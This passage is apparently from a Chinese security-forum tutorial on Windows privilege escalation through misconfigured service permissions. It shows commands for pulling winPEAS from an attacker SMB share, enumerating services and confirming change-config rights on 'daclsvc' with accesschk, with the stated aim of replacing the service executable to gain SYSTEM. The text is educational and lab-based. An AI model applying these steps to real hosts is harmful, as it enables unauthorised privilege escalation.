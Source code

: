 开始/停止服务：

```php
net start/stop <name>
```

服务配置错误
------

### 1.不安全的服务权限

#### 前言

每个服务都有 ACL，定义某些特定于服务的权限。

有些权限是无害的(例如服务查询配置，服务查询状态)

有些可能有用(例如， 服务停止，服务启动 )

有些是危险的（例如，服务更改配置，服务所有访问）

如果我们的用户有权更改具有系统特权的服务的配置，我们可以将服务使用的可执行项更改为我们自己的服务之一。

**但是这里要注意：如果可以更改服务配置，但无法停止/启动服务，则依然可能是无法提权的**

#### 实操

##### 1.SMB Server进行上传winPEASany.exe

```php
python smbserver.py a001 /var/www/html/copy \\192.168.175.130\a001\winPEASany.exe winPEASany.exe
```

![image-20210706113441988](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d67b467ca157e2ce6d902121739ad01b66f182e9.png)

##### 2. 运行winPEAS以检查服务配置错误：

```php
.\winPEASany.exe quiet servicesinfo
```

![image-20210706135802394](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7a6a969a0042a178a19362ecd7b12397f77fe567.png)

##### 3. 可以修改"daclsvc"服务。

##### 4. 我们可以用accesschk.exe来确认这一点：

使用它来检查用户或组是否有权访问文件，目录，服务和注册表项

```php
 .\accesschk.exe /accepteula -uwcqv user daclsvc
```

```php
C:\Users\user\Desktop> .\accesschk.exe /accepteula -uwcqv user daclsvc                                                                C:\Users\user\Desktop> .\accesschk.exe /accepteula -uwcqv user daclsvc RW daclsvc        SERVICE_QUERY_STATUS        SERVICE_QUERY_CONFIG        SERVICE_CHANGE_CONFIG        SERVICE_INTERROGATE        SERVICE_ENUMERATE_DEPENDENTS        SERVICE_START        SERVICE_STOP        READ_CONTROL
```
